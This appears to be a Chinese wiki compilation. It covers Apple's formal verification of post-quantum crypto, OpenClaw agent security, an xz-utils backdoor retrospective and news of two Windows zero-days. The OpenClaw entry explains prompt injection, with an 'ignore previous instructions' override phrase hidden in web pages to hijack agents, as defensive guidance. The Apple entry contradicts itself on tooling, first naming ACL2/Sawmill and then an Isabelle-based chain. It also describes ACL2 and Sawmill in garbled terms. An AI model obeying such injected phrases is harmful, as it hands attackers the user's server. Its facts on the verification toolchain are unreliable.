Apple Security Engineering and Architecture (SEAR) 联合 Hardware Technologies Formal Verification 团队发布的第一方技术披露，详细介绍了 Apple 如何在 iMessage 部署 PQ3 协议栈（ML-KEM/ML-DSA，FIPS 203/204）时对 corecrypto 核心实现进行**形式化验证**。这是大型科技公司公开其核心密码学代码形式化验证方法论的少数案例之一，对安全工程、Harness Engineering、Post-Quantum 迁移都有借鉴价值。

## 三个独有贡献（不应合并到现有 entity）

1. **核心密码学代码的形式化验证 pipeline**（不是 TLA+ 系统建模）— 与现有 [antfly 博客](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-formal-verification-ai-code.md)（AI agent 在 TLA+/Coq 证明上 hill-climb）属于**不同技术层**。前者是 *软件工程层*（让 AI 写出可验证代码），后者是 *密码学实现层*（用 ACL2/Sawmill 等证明助手验证汇编级恒定时间 + 正确性）。
2. **Post-quantum 算法（ML-KEM/ML-DSA）的工业级验证方法** — FIPS 203/204 标准算法的 reference implementation 形式化验证，包含 Montgomery reduction、polynomial multiplication、NTT 等核心子程序证明。
3. **Side-channel resistance 形式化** — 恒定时间（constant-time）属性在汇编层被形式化证明，覆盖 Apple Silicon 特有的 NEON 加速路径。

## 形式化验证的工程栈

Apple 公开的方法涉及多个工具和层次：

| 层次 | 工具 / 语言 | 用途 |
|------|------------|------|
| 规范层 | ACL2 / Sawmill | 高层数学规范，定义算法的正确性属性 |
| 实现层 | C reference + intrinsics | 验证目标（production 代码） |
| 优化层 | ARM64 NEON 汇编 | Apple Silicon 加速路径 |
| 证明层 | ACL2 theorem prover | 逐函数证明 spec 与实现等价 |
| Side-channel | timing model in ACL2 | 证明执行时间不依赖 secret |

## 关键方法论

### Spec extraction
- 从 NIST FIPS 203/204 标准文本提取数学规范
- 用 ACL2 形式化：polynomial ring Z_q[X]/(X^n+1)、NTT、sampling、rejection sampling
- 证明"reference implementation" 与数学规范等价

### Montgomery multiplication 证明
- 核心 sub-routine: Montgomery reduction
- 证明：对于所有输入 (a, b, q, R)，输出满足 `(a*b*R^-1) mod q` 且无溢出
- 覆盖 Apple 定制 ARM64 NEON 实现路径

### Constant-time 证明
- 在 processor-level timing model 中证明：算法运行时间不依赖于任何 secret key bit
- 涵盖 cache-timing, branch-prediction, NEON SIMD 调度差异
- 形式化 leak-free 边界

### Cross-implementation equivalence
- 证明不同平台（iOS, macOS, watchOS, tvOS）的不同优化路径（如 NEON vs scalar）输出 bit-exact
- 关键：避免"platform A 和 platform B 行为略有差异导致 side-channel 指纹不同"的问题

## 深度分析

1. **形式化验证能捕获传统测试永远无法发现的静默计算错误** — Apple 披露，其形式化验证流程在 ML-DSA 早期实现中发现了一个缺失步骤，在极少数情况下会导致输入超出预期范围并产生错误输出，且现有测试套件无法发出任何警告。这直接证明了形式化验证相对于随机 fuzzing 的不可替代价值：后者只能在有限输入空间内观察异常行为，而前者能在数学层面证明所有可能输入的正确性。

2. **工业级密码学形式验证是资源密集型工程，而非学术概念验证** — Apple 整个流程涉及超过 50,000 个证明步骤，并为此构建了全新的 Isabelle 库（可复用理论、引理）。这说明任何希望复现此模式的组织都需要将形式化验证视为与硬件验证同等量级的工程投入——不是用几个人月就能完成的辅助工作，而是需要专职团队和多年积累的基础设施。

3. **编译器是形式验证信任链中最关键的隐式假设** — Apple 的方法论明确承认其证明假设"编译器正确地将经过验证的 C 代码转换为 CPU 指令"。这揭示了一个深层问题：形式化验证圈通常关注算法层面的证明，但生产代码从 C 到汇编再到 CPU 微码的每一层都有引入微妙 bug 的可能。Apple 选择信任编译器，但其 Hardware PKA 验证（ Isabelle 应用于硬件）采用了更底层的证明截断策略。

4. **跨实现路径的 bit-exact 一致性是防止侧信道指纹差异的关键** — Apple 需要证明 iOS/macOS/watchOS/tvOS 上不同优化路径（NEON SIMD vs scalar）产生 bit-exact 结果。这不仅关乎正确性，还关乎安全性：不同平台的行为差异会产生可测量的侧信道指纹，形式化等效性证明是消除该风险的最彻底手段。

5. **端到端最强保障来自形式化方法与传统方法的互补组合** — Apple 明确表示"基于我们的工作，我们相信最强可能的保障来自形式化验证与传统方法的结合，并对端到端结果进行严格评估"。形式化验证覆盖数学正确性和恒定时间属性，而传统测试（fuzzing、simulation、渗透测试）覆盖运行时行为和实际侧信道泄漏。两者互为补充而非替代关系。

## 实践启示

- **核心密码学代码的形式化验证从"理论可行"变为"工业级可复用"** — Apple 公开的工具链（Cryptol → SAW → Isabelle 翻译链）和 Isabelle 库可被其他密码学库（BoringSSL、OpenSSL、mbedTLS、libsodium）借鉴。关键在于提前构建可组合的引理库，而非每次从零开始写证明。
- **Post-quantum 迁移的关键瓶颈是验证而非实现** — FIPS 203/204 算法标准化早已完成，生产部署的最大风险是"实现 bug 导致 secret 静默泄露"，形式化验证是消除该风险的最强证据。在 PQ3 场景中，Apple 宁可投入 50,000+ 证明步骤也不愿在安全性上妥协，说明优先级排序发生了根本性转变。
- **Side-channel 不应仅靠 fuzzing 或审计** — 形式化 constant-time 证明在 processor-level timing model 中覆盖率为 100%，配合 Apple 公开的工具可被其他厂商复用。传统 timing 测试只能检测已知的侧信道向量，而形式化方法能发现未知的新向量。
- **形式化验证基础设施需要提前投资，不能等到部署前才开始** — Apple 在 2019 年就开始对经典密码学（ECC PKA）进行形式化验证，历时多年才建立起可支撑 ML-KEM/ML-DSA 的工具链。这意味着任何计划跟进的企业现在就需要启动形式化验证投资，而非等到下一个标准算法出现时才临时抱佛脚。
- **编译器信任假设需要在安全架构层面做出明确决策** — 在采用形式化验证时，团队必须明确界定信任边界：是完全信任编译器（Apple 策略），还是将编译器也纳入验证范围（需要同时验证 C 到汇编的语义保留）。这一决策直接影响验证的可信度层级和所需工作量。

## 与现有实体的差异化

| 维度 | 现有 `agent-formal-verification-ai-code` | 本 entity |
|------|--------------------------------------|----------|
| Artifact | Antfly blog post + AI agent TLA+ 探索 | Apple SEAR first-party 披露 + ACL2 工业级 pipeline |
| 技术层 | 软件工程层（AI 写 spec/proof） | 密码学实现层（assembly-level correctness + constant-time） |
| 目标 | 证明 distributed system invariant | 证明 ML-KEM/ML-DSA 正确性 + side-channel resistance |
| 工具 | TLA+/Coq + Claude agent | ACL2 + Sawmill + Apple internal tooling |
| 价值主张 | "AI 让形式化验证变便宜" | "形式化验证是 post-quantum 迁移的必备基础设施" |
| 可复用性 | 任何 LLM + spec 库 | 密码学库维护者 + 形式化方法研究者 |

## 关键术语

- **corecrypto**: Apple 的核心密码学库，闭源但被 iOS/macOS/watchOS/tvOS 广泛使用
- **ML-KEM / ML-DSA**: NIST FIPS 203 / FIPS 204 标准的 module-lattice KEM 和签名方案（CRYSTALS-Kyber / CRYSTALS-Dilithium 的标准化版本）
- **PQ3**: Apple 2024 年宣布的 iMessage post-quantum 协议栈，结合 ML-KEM (X25519+Kyber hybrid) + ML-DSA
- **SEAR**: Security Engineering and Architecture，Apple 内部安全团队
- **ACL2**: 一阶逻辑 theorem prover，Ackermann 函数式语言，工业级形式化验证标准
- **Sawmill**: Galois Inc 开发的 ACL2-based Sawja 框架，用于 Java/汇编级验证

## 链接到现有实体

- [Agent Formal Verification Ai Code](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-formal-verification-ai-code.md) — 互补层：软件工程层（AI 写证明）vs 密码学实现层（人工 ACL2 证明）
- [Alphaevolve Deepmind Discovery Agent](https://github.com/QianJinGuo/wiki/blob/main/entities/alphaevolve-deepmind-discovery-agent.md) — 同样在"AI × 形式化"边界，但走 discovery 路线而非验证路线
- How Ethereum Plans To Replace Bls With Post Quantum Signatur 20260606 — 同样 post-quantum 主题，但关注 BLS aggregate signatures 而非核心 KEM/DSA

## 上线状态

- **Apple 公开披露日期**：2026-06-08
- **iMessage PQ3 已部署**：自 2024 年 iOS 17.4 起，2026-06 已是生产流量
- **形式化验证范围**：corecrypto 的 ML-KEM/ML-DSA 实现 + side-channel resistance
- **开源承诺**：Apple 未承诺开源 ACL2 specs，但披露了方法论和工具链设计

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/security-privacy-landscape.md)

---

## Ch12.025 OpenClaw 安全和功能增强实践

> 📊 Level ⭐⭐ | 12.6KB | `entities/openclaw-security-and-feature-enhancement-practices.md`

# OpenClaw 安全和功能增强实践

> AWS 中国官方博客 2026-03-12 发布，作者"龙虾阿含"在 AWS EC2 上自托管 OpenClaw 后，从**安全防护**与**功能增强**两条主线整理的工程实践记录。本质是"不是官方教程，而是实际踩坑后的复盘"——把自托管 AI Agent 部署的实战安全风险与缓解措施系统化。
>
## 相关实体

- [discord 全平台端到端加密](https://github.com/QianJinGuo/wiki/blob/main/entities/discord-e2e-encryption.md)
→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/openclaw-security-and-feature-enhancement-practices.md)

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/openclaw-architecture.md)
## 摘要

OpenClaw 是一款开源、自托管的 AI Agent 平台，通过 Telegram / WhatsApp / Discord / Slack / Teams / 飞书 / iMessage / Signal 等多通道与用户交互。其核心设计是"本地优先"——数据、配置、对话历史全部留在用户自己的基础设施上。原文是一篇典型的"自托管 Agent 安全实战"指南，系统梳理了 OpenClaw 部署中四类核心安全风险（自治权限、凭证散落、网络暴露、提示注入），并配套给出"龙虾阿含"个人部署的架构图与缓解策略，最后介绍 4 种在 AWS 上的部署方式（单机 EC2 / 多租户 Bedrock AgentCore / EKS Graviton / CI/CD 集成）。

## 核心要点

- **OpenClaw 的产品定位**：自托管、本地优先的 AI Agent 平台；通过多通道消息集成与用户交互；可扩展 Skill 系统；支持多模型（含本地模型）。
- **核心安全挑战**：
  1. **Agent 自治权限** —— 继承运行用户的系统权限，能读写文件、执行 Shell、调用 API。安全模型是"保护能自主行动的实体"，而非"保护接口"。
  2. **凭证散落** —— Gateway Token、LLM API Key、Bot Token、搜索 API Key、OAuth 凭据分散在 `openclaw.json`、环境变量、MCP 配置、本地 token 文件中。
  3. **网络暴露** —— Gateway 默认监听 18789 端口，互联网上已有大量实例被扫描发现（[openclaw.allegro.earth](https://openclaw.allegro.earth/)）。
  4. **提示注入** —— 抓取的网页可能含恶意指令；用户输入可绕过行为约束；攻击者可让 Agent 泄露系统信息或执行危险命令。
  5. **配置脆弱性** —— `openclaw.json` 配置错误导致插件加载失败、Gateway 崩溃。
- **AWS 上的 4 种部署方式**：
  1. 单机 EC2（个人用户）
  2. 多租户 Bedrock AgentCore（中小企业）
  3. EKS Graviton 多租户（大规模）
  4. CI/CD 集成（持续运营）
- **安全增强主线**：网络隔离（不放公网/VPN 访问）、凭证集中管理（Secrets Manager / IAM Role 替代硬编码）、输入过滤、配置版本控制、最小权限原则。
- **功能增强主线**：Skill 扩展、定时任务、多模型切换、语音转写、搜索引擎插件替换。

## 深度分析

### 一、自托管 AI Agent 的安全范式差异

OpenClaw 这类自托管 AI Agent 与传统 Web 应用的安全模型有本质差异——这一点是文章的核心洞察：

| 维度 | 传统 Web 应用 | 自托管 AI Agent |
|------|-------------|----------------|
| 安全边界 | 接口（API endpoint） | 拥有系统权限的实体 |
| 攻击面 | HTTP 端点、SQL 注入、XSS | 文件系统、Shell 命令、网络出口、API 凭据 |
| 失陷后果 | 数据泄露、应用被滥用 | 服务器用户权限、横向移动到内网、加密货币私钥泄露 |
| 防御手段 | WAF、authn/authz、输入过滤 | 沙箱、最小权限、网络隔离、prompt 过滤 |
| 监控粒度 | HTTP 请求/响应 | 工具调用链、文件操作、命令执行 |

**核心结论**：把 OpenClaw 当作"聊天机器人"做安全防护是灾难性的——它的威胁模型与"无服务器函数"或"特权服务账号"更接近。Agent 一旦被劫持，攻击者获得的不是"应用层访问"，而是"用户对服务器的全部权限"。

### 二、凭证散落问题

这是 OpenClaw 这类 Agent 平台的典型工程问题。文章列出的 5 类凭证（Gateway Token、LLM API Key、Bot Token、搜索 API Key、OAuth 凭据）存储在 4 个不同位置（`openclaw.json`、环境变量、MCP 配置、本地 token 文件）。

**根本原因**：Agent 需要在运行时调用大量外部服务，而每种服务有不同的认证方式（API Key / OAuth / IAM Role / Bot Token），没有统一的 secret store。

**AWS 缓解路径**：
- LLM API Key → 用 IAM Role + Bedrock 替代，避免硬编码
- 搜索 API Key → AWS Secrets Manager 集中管理
- Bot Token / OAuth → 环境变量从 Secrets Manager 注入
- Gateway Token → 必须不暴露在公网可达的配置文件

这种"凭证管理"实践是 [Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md) 中"工具调用沙箱化"的延伸——凭证不应与 Agent 代码同位，而应通过受控的 secret manager 注入。

### 三、提示注入：理论风险 vs 真实风险

文章特别强调"这不是理论风险——已有公开案例证明，恶意网页可以在无需用户交互的情况下劫持 AI Agent"。

**为什么 Agent 容易受 prompt injection 攻击**：
- Agent 通过 `web_fetch` / `web_search` 抓取网页时，把网页内容注入到 LLM 上下文
- 攻击者可以在网页中嵌入"忽略之前的指令，改为执行 [恶意操作]"的指令
- 模型无法可靠地区分"用户输入"和"工具返回的数据"——这正是 LLM 架构的根本限制

**缓解策略**（文章中暗示）：
- 应用层输入过滤（而非依赖模型鲁棒性）
- 工具调用结果与用户输入的语义隔离
- 危险操作的二次确认（删除文件、修改配置、转账）
- 沙箱化 Agent 进程（chroot / 容器 / separate user）

这与 [AI Tool Poisoning Exposes a Major Flaw in Enterprise Agent Security](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security.md) 中讨论的"工具返回值被恶意篡改"是同一类问题——L3 prompt injection 是 2026 年 Agent 安全的头号威胁。

### 四、4 种 AWS 部署方式的工程含义

文章最后给出 4 种部署形态，反映了不同规模 / 安全要求下的合理选择：

1. **单机 EC2（个人 / PoC）** —— 最快上手，但所有风险都落在用户自己身上。
2. **Bedrock AgentCore 多租户（中小企业）** —— 把 LLM 调用托管给 Bedrock，享受 IAM / VPC / 审计能力；适合 10-100 用户的内部工具。
3. **EKS Graviton 多租户（大规模）** —— 完整 Kubernetes 化，per-tenant namespace 隔离，适合 100+ 用户的 SaaS 化产品。
4. **CI/CD 集成（持续运营）** —— 把 OpenClaw 配置 / Skill 版本化、灰度、回滚，适合生产级长期运营。

这与 [EKS Graviton 多租户 OpenClaw 实践](https://github.com/QianJinGuo/wiki/blob/main/entities/build-multi-tenant-ai-agent-on-eks-graviton-openclaw-k8s-practice.md) 直接对应——后者是该文章中"方案 3"的工程细节展开。

### 五、对其他自托管 Agent 的参考价值

OpenClaw 不是孤例——任何"本地优先、用户自治、跨消息通道"的 Agent 平台（如 n8n、LangGraph Platform 自托管版、Home Assistant + LLM 扩展）都面临同构问题。原文的 4 类风险（自治权限、凭证散落、网络暴露、提示注入）几乎是通用框架。

**可复用的安全基线**：
- **最小权限**：Agent 进程使用专门低权限用户；不与个人账号共享 SSH 密钥
- **网络隔离**：Gateway 仅监听 127.0.0.1；通过 SSH tunnel / WireGuard / Cloudflare Tunnel 访问
- **凭证集中**：Secrets Manager / SSM Parameter Store / Vault 统一管理
- **输入过滤**：工具调用结果与用户输入在 prompt 模板中显式分隔
- **审计日志**：所有工具调用、文件操作、命令执行都进 CloudWatch / SIEM
- **危险操作二次确认**：rm、mv、curl、ssh、apt-get 这类命令在执行前必须人工确认

## 实践启示

- **不要把自托管 Agent 当聊天机器人部署**——把它当作"特权服务账号"对待，使用最小权限、沙箱化、网络隔离。
- **凭证管理是 Agent 部署的 1 号工程问题**——尽早引入 Secrets Manager / IAM Role 替代硬编码，避免后期重构。
- **prompt injection 防御必须在应用层做**——不要依赖模型的"鲁棒性"，要在 prompt 模板中显式分隔用户输入和工具返回。
- **选择适合规模的部署形态**——PoC 用 EC2，中小企业用 Bedrock AgentCore，大规模用 EKS，不要从一开始就 Kubernetes 化。
- **配置即代码**——`openclaw.json` 应当入 Git，配合 CI/CD 与配置漂移检测，避免"在我机器上能跑"。
- **关注暴露面**——互联网上已有大量 OpenClaw 实例被扫描，部署前先确认网络隔离策略。
- **关注 OpenClaw 生态的多租户与 CI/CD 实践**——单用户自托管与多用户生产部署的工程要求差 1-2 个数量级。

## 关联实体

- [AI Agent 的迁移与现代化: OpenClaw → Bedrock AgentCore](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-agent-的迁移与现代化-使用-amazon-bedrock-agentcore-将-openclaw-从单机改造为多租户-serverless-架构-.md)
- [EKS Graviton 多租户 OpenClaw K8s 实践](https://github.com/QianJinGuo/wiki/blob/main/entities/build-multi-tenant-ai-agent-on-eks-graviton-openclaw-k8s-practice.md)
- [CI/CD on Bedrock AgentCore OpenClaw 企业智能运营最佳实践](https://github.com/QianJinGuo/wiki/blob/main/entities/ci-t-based-on-amazon-bedrock-agentcore-openclaw-enterprise-intelligent-operations-best-practices.md)
- [Agent Security 三步走: Harness + Governance + Identity](https://github.com/QianJinGuo/wiki/blob/main/entities/agent-security-three-step-sequence-harness-governance-identity-crewai.md)
- [AI Tool Poisoning Exposes a Major Flaw in Enterprise Agent Security](https://github.com/QianJinGuo/wiki/blob/main/entities/ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security.md)
- [Claude Code vs OpenClaw Memory 对比](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-code-openclaw-memory-comparison.md)
- [Claude Code vs OpenClaw Memory 向量数据库之争](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-code-openclaw-memory-vector-db-doubt.md)
- [Claude Code vs OpenClaw 使用 Ettin](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-code-openclaw-usage-ettin.md)
- [Claude Managed Agents 自托管沙箱企业版](https://github.com/QianJinGuo/wiki/blob/main/entities/claude-managed-agents-self-hosted-sandbox-enterprise.md)
- [Harness Engineering](https://github.com/QianJinGuo/wiki/blob/main/concepts/harness-engineering-framework.md)

---

## Ch12.026 xz-utils Backdoor 2 Years On — Maintainer Trust Hijack Pattern Beyond CVE Scanners

> 📊 Level ⭐⭐ | 11.3KB | `entities/xz-utils-backdoor-maintainer-trust-hijack-2-years-on.md`

# xz-utils Backdoor 2 Years On — Maintainer Trust Hijack Pattern Beyond CVE Scanners

> **核心论点**：CVE-2024-3094（xz-utils 后门）不是被 CVE scanner 发现的，是被 Andres Freund（PostgreSQL maintainer）注意到 SSH login 慢了 500ms 后追溯出来的。**整个攻击链是"maintainer 信任劫持"而非"代码漏洞"**——这意味着 CVE-driven scanner 结构性无法在攻击发生时检测，只能在 CVE 出现后告警。

## 三条独有贡献

1. **Maintainer Trust Hijack Pattern 完整复盘** — Jia Tan 用 2 年（2021-2024）做"信任积累"路径：合理 patches + 响应 issue tracker + 友好协作 → 现有 maintainer 倦怠 → 被加为 co-maintainer → 提交带后门的 release。这套 social engineering 在 AI coding agent 时代被放大（agent 可批量生成"合理 patches"快速建立 commit history） ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
2. **CVE Scanner 根本盲区** — 在 2024-03-29 CVE 公布前一天跑任何 CVE scanner，xz-utils 5.6.0 都返回 clean。Package 没有 known vulnerability，maintainer reputation 干净，release notes 平淡无奇。**Lockfile scanning 是 quarterly fresh，threat landscape 是 daily fresh** ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
3. **Build System Attack Vector** — 后门没放在 source code，放在 autotools m4 macros（生成 release tarball 的构建脚本）。git source tree 干净，tarball 在 link-time 注入恶意 object file。**Normal code review path 必然漏检**——必须 byte-by-byte 对比 tarball vs git tree ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## 攻击时间线（Jia Tan）

| 阶段 | 时间 | 行为 | 目的 |
|------|------|------|------|
| Phase 1 | 2021 起 | 提交 reasonable patches | 展示技术能力 |
| Phase 2 | 2021-2023 | 在 issue tracker 积极响应、帮人 review | 建立社区 presence |
| Phase 3 | 2023 | 现有 maintainer（Lasse Collin）burnout | Jia Tan 主动帮忙 |
| Phase 4 | 2023 下半年 | Jia Tan 被加为 co-maintainer + commit 权限 | 获得代码控制权 |
| Phase 5 | 2024-02 ~ 03 | 改 m4 macros，注入恶意 object file | 后门植入 |
| Phase 6 | 2024-03-28 | xz-utils 5.6.0 / liblzma 5.4.1 发布 | 后门随 stable distro 推送 |
| Phase 7 | 2024-03-29 | Andres Freund 发现 500ms SSH slowdown → 追溯 → oss-security 报告 | 攻击被拦截 |

**关键事实**：如果 Andres 没注意到那 500ms（绝大多数人会忽略），后门会随 Debian / Fedora stable 进入生产环境，攻击者获得**互联网上大型比例的 Linux 主机的 RCE as root**。Distro release schedule + 偶然观察是仅有的拦截因素。 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## CVE-Driven Scanner 的结构性盲区

| Scanner 类型 | 答的问题 | 答不了的问题 |
|-------------|---------|------------|
| Lockfile scanner | "This version 已知为 bad?" | "This version 安全吗?" |
| CVE database | 已被披露 + 分配 CVE ID | 0-day 攻击、maintainer 信任劫持 |
| SBOM analyzer | 包依赖图 | 依赖本身的 maintainer 行为 |

**核心矛盾**：CVE-driven scanning answers "is this version known to be bad." It does not answer "is this version safe." 历史大部分时间这两个问题同义，**但 maintainer 信任劫持让两者开始分歧**。 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## 三个 Practical Moves

1. **Pin direct dependencies** — 不让 transitive deps 自动 resolve。xz-utils 是 openssh 的 transitive dep（through systemd → libsystemd → liblzma），pin 直接 dep 无法拦截但**至少能锁定版本号不变** ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
2. **Review every lockfile diff** — 不只看 direct deps，看 transitive deps 的 hash 变化。CVE scanner 不会告诉你 maintainer 变了，但 lockfile diff 会 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
3. **Subscribe to real-time feeds (OSV) for shipped languages** — 替代 quarterly CVE database。OSV 在 package publish/update 时实时 stream 漏洞数据，CVE database 滞后数天到数周 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

**额外防御层**： ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
- **Postinstall-script scrutiny** — 攻击常发生在 npm install 的 postinstall hook。xz 走的是 m4 macro 但本质相同
- **Maintainer-shift signals** — 监控 package maintainer 变化。Jia Tan 加为 co-maintainer 是一个 critical signal
- **Byte-level tarball/git diff** — 极端严格，但 release tarball 不等于 git tree 是 attack vector

## 与 supply chain 实体的差异化

| 现有 entity | 焦点 | 与本文的轴 |
|------------|------|----------|
| `ai-tool-poisoning-exposes-a-major-flaw-in-enterprise-agent-security-v2` | 17KB enterprise agent security（broad） | **Agent MCP / 工具 supply chain** |
| `aws-software-supply-chain-security-well-architected-best-practices` | 3KB AWS 框架 | **AWS 官方 best practices** |
| `npm-supply-chain-compromise-postmortem` | npm 事件 postmortem | **npm-specific incident** |
| `rigged-game-scarcruft-compromises-gaming-platform-supply-chain-attack` | 单一事件 | **Gaming-specific** |
| **本文 (xz 2 years on)** | **单个 attack pattern 完整复盘** | **Maintainer trust hijack + scanner 盲区 + 防御架构** |

**关键差异**：本文不是 incident report，是 2 年后对 attack pattern 的 retro-analysis，给出**为什么 CVE scanner 必然漏检**的根本性解释，超越了"如何应对具体事件"的层面。 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## AI Agent 时代的放大效应

Jia Tan 用 2 年手工建立的"合理 patch history"在 AI agent 时代被指数级放大： ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]
- Agent 可批量生成"看起来合理"的 patches，伪装成"积极贡献者"
- 攻击者 fork 主流 package，让 agent 自动维护一个看起来"持续活跃"的镜像仓库
- Maintainer 信任信号（commit count、issue response rate、PR merge rate）变得可被 AI 伪造

**结论**：CVE scanner + maintainer reputation signals 在 AI agent 时代都变得不可靠。**postinstall-script scrutiny + OSV real-time feed + maintainer-shift monitoring 是 2026 年以后 supply chain 安全的新基线**。 ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## 引用

## 深度分析

### 1. 社会工程攻击供应链的新范式
xz-utils 后门事件两年后的回顾确认了一个新范式：开源供应链攻击不再依赖代码漏洞，而是通过长期社会工程获取维护者权限。攻击者花 2 年时间建立信任，逐步接管项目——这种耐心和系统性远超传统安全威胁模型。

### 2. 单一维护者项目的系统性风险
xz-utils 后门暴露的核心问题是"单一维护者"——关键基础设施（被大多数 Linux 发行版依赖）由一人维护，当该维护者倦怠或被社会工程攻破时，整个供应链暴露。

### 3. 与 AI agent 安全的交叉影响
xz 事件对 AI agent 安全有两个直接启示：(a) AI agent 的工具依赖（MCP server、Python 包）同样存在供应链风险；(b) AI agent 自身可能成为社会工程的载体——通过恶意 prompt 注入控制 agent 行为。这与 `Agent Security Three Step Sequence Harness Governance Identity Crewai` 的治理框架直接相关。

### 4. 后门检测的技术局限
xz 后门的设计极其隐蔽——使用 obfuscated 代码、二进制注入、运行时解密——传统静态分析和代码审查都未能及时检测。这暴露了后门检测的根本局限：足够复杂的后门可以绕过所有自动化检测。

### 5. "两年后"的持久影响
xz 事件两年后的持久影响是：开源社区对新维护者的信任门槛显著提高，关键项目的合并审查更严格，但核心问题（维护者倦怠、激励不足）仍未解决。

## 实践启示

### 1. 审计你的依赖链中的单一维护者项目
扫描你的依赖树，识别由 <3 人维护的关键依赖——这些是供应链攻击的最高风险点。

### 2. 对关键依赖实施锁定和验证
对关键依赖使用锁定文件（lockfile）和构建可复现性验证——确保运行的是已审查的版本。

### 3. AI agent 工具依赖：同样需要供应链审计
AI agent 使用的 MCP server 和工具包同样存在供应链风险。审计 agent 可调用的所有工具的维护者信任度。

### 4. 支持"无聊但关键"的开源项目
xz、OpenSSL 等关键基础设施项目长期缺乏资源。组织应系统性资助这些项目，减少维护者倦怠风险。

### 5. 建立依赖变更的监控和告警
当关键依赖出现异常变更（新增维护者、大规模重构、构建系统变更）时自动告警——这些是后门植入的常见前兆。

→ [原文存档](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md) ^["[Arcis Website Pages Dev Blog Posts Xz Utils And The Trust Shift](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/arcis-website-pages-dev-blog-posts-xz-utils-and-the-trust-shift.md)"]

## 相关实体

- [MOC](https://github.com/QianJinGuo/wiki/blob/main/moc/cybersecurity-privacy.md)

---

## Ch12.027 Disgruntled researcher releases two more Microsoft zero-days

> 📊 Level ⭐⭐ | 11.1KB | `entities/disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md`

# Disgruntled researcher releases two more Microsoft zero-days

> -> [13-disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md](https://raw.githubusercontent.com/QianJinGuo/wiki/main/raw/articles/13-disgruntled-researcher-releases-two-more-microsoft-zero-days-5239758.md)

## 摘要

2026 年 5 月 13 日，安全研究者 Nightmare-Eclipse（又名 Chaotic Eclipse）在微软 Patch Tuesday 后立即公开两个 Windows 零日漏洞：**YellowKey**（BitLocker 旁路，可绕过全盘加密）和 **GreenPlasma**（提权至 SYSTEM）。这是该研究者 2026 年公开的第五、第六个 Microsoft 零日，与此前的 BlueHammer（CVE-2026-32201）、RedSun、UnDefend 一同构成对微软的"报复性披露"战役。

## 核心要点

- **YellowKey（BitLocker 旁路）**：通过特定按键序列和 USB 加载可绕过 BitLocker 加密获得 Shell 访问；研究者称之为"一生最疯狂的发现之一"，需要物理接触目标机器。
- **GreenPlasma（提权漏洞）**：授予攻击者 SYSTEM 访问权限，研究者发布了部分漏洞利用代码（未完成 PoC），在默认 Windows 配置下会触发 UAC 同意提示。
- **物理访问的合规含义**：尽管需要物理访问，Forescout 的 Rik Ferguson 警告"被盗笔记本不再只是硬件问题，而是数据泄露通知问题"。
- **缓解措施**：YellowKey 可通过启用 BitLocker PIN + BIOS 密码锁缓解；GreenPlasma 目前没有已知缓解措施，需等待微软补丁。
- **研究者身份猜测**：根据报道该研究者据传是微软前员工；其首次声明"有人违反协议，让他无家可归"，故采取报复性披露。
